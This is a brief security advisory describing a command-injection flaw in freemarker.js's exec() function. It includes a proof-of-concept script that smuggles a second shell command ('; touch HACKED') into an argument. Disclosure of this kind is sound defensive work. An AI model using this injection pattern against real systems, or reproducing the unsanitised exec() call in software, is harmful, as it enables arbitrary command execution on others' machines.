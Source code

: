 # Overview
FreeMarker is a "template engine". It's a Java package, a class library for Java programmers. Freemarker.js is bridge API for `fmpp` to make Freemarker available with node.js.

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in the `exec()` function.

# Proof of Concept
```js
var Freemarker = require('freemarker.js')

var args = ['--version', '; touch HACKED; //#'];
Freemarker.exec(args, function(err, output) {
    console.log(output);
});
```
